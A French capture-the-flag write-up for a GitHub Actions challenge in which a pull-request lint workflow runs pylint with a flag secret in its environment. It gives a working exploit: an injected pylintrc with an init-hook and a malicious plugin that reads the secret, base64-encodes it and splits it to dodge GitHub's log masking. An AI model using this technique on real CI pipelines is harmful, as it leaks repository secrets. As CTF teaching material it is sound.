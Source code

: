 # D-8 GitHub Workflows - Egypt

## Intro

Pour cette track, un repo Github read-only avec des [Github Actions workflows](https://docs.github.com/en/actions).
Chaque workflow constitue un des challenges de la track et ont tous comme but d'extraire le flag des Secrets du workflow et suit généralement l'ordre suivant:

1. Trouver comment activer le workflow
2. Trouver la faille dans le workflow
3. Executer l'exploit.

Note: Github cache les secrets et certaines transformations connue (ex. hex, base64) des logs par défault.

# Challenge

Le challenge de la track D8:

```yaml
name: Egypt
on:
  pull_request:
    types:
      - opened
      - synchronize
      - edited

jobs:
  cairo:
    if: contains(github.event.pull_request.title, '[Lint]')
    timeout-minutes: 5
    runs-on: ubuntu-latest
    permissions: 
      contents: read
      pull-requests: read
    env:
      FLAG: ${{ secrets.FLAG_EGYPT }}
      GH_TOKEN: ${{ secrets.GITHUB_TOKEN }}
    steps:
      - name: Checkout
        uses: actions/checkout@v4
      - name: Checkout
        uses: actions/checkout@v4
        with: 
          ref: ${{ github.event.pull_request.head.sha }}
          path: pr
      - name: Set up Python
        uses: actions/setup-python@v5
        with:
          python-version: 3.12
      - name: Install dependencies
        run: pip install pylint
      - name: Set config from upstream
        run: cp .pylintrc pr/.pylintrc
      - name: Lint with pylint
        id: lint
        continue-on-error: true
        working-directory: pr
        run: |
          pylint . 
```

### Trouver comment activer le workflow

Ce workflow est lancé sur les PR ayant '[Lint]' dans leur titre.

```yaml
on:
  pull_request:
    types:
      - opened # Lancé lorsqu'on crée une nouvelle PR
      - synchronize # Lancé lorsqu'un nouveau commit est ajouté a la PR
      - edited # Lancé lorsqu'un changement a la PR est effectué

...

 if: contains(github.event.pull_request.title, '[Lint]')
```

![pr](./assets/egypt-pr.png)


### Exploit
Ce workflow utilise PyLint pour analyser le code Python selon une liste de règles. On ne peut changer directement le fichier de configurations puisque le workflow copie celui provenant du repo original (en lecture seule).

```
cp .pylintrc pr/.pylintrc
```

Par contre, en lisant la [documentation de PyLint](https://pylint.pycqa.org/en/latest/user_guide/usage/run.html#command-line-options), on peut voir que cet outils supporte plusieurs fichier de configuration. De plus, PyLint support d'ajouter des extensions en Python.

`pylintrc`
```toml
[MASTER]

# Permet d'importer des modules du fichier courant. Les variables d'environments ne sont pas loader a cette étape
init-hook='import sys; import os; print(os.listdir("..")); sys.path.append(".")'
load-plugins=my_plugin
```

`my_plugin.py`
```py
import os
import base64
import sys

def run_sh_code(command):
    result = os.popen(command).read()
    return result

def register(linter):
    flag = os.getenv('FLAG', 'none')
    b64_flag = base64.b64encode(flag.encode()).decode()
    # Split le flag en 2 pour éviter que Github ne le censure
    print("Flag: ", b64_flag[0:len(b64_flag)//2], " | ", b64_flag[(len(b64_flag)//2)-4:])

```

![issue](./assets/egypt-workflow.png)

---
## Flag:

`flag-egypt-9312131bb234`